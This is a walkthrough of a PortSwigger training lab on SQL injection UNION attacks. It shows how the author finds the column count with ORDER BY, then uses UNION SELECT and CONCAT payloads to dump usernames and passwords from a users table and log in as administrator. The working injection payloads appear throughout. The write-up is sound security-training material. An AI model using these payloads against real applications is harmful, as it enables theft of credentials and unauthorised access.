

# SQL injection UNION attack, retrieving data from other tables

**Lab Url**: [https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)



## Objective

The lab objective is to retrive data from other tables.

## Analysis

The initial step is to understand how the vulnerable application works and gather information about the target system. The application showcases a product catalog with a product name. The navbar contains a feature to filter out products by category.

As in the previous lab, we can use the `ORDER BY` clause to determine the number of columns query returns.

```bash
'+ORDER+BY+2+--
```

**In my case, the query returns `two` columns however only one is displayed or returned. You can confirm that from the below payloads:**

**This payload will cause an internal server error.**

```bash
'+union+select+username,password+from+users+--
```

**However, this will return valid credentials.**

```bash
'+union+select+null,username+from+users+--
```

OR

```bash
'+union+select+null,password+from+users+--
```

## Solution

It seems like there is a mechanism on the backend that only returns the last column thus we can get only one column at a time. However, we can bypass this using the `CONCAT()` function.

```bash
'+union+select+null,concat(username,'-',password)+from+users+--
```

After retrieving the credentials log in as `administrator` to solve this lab.

![Lab Solved]
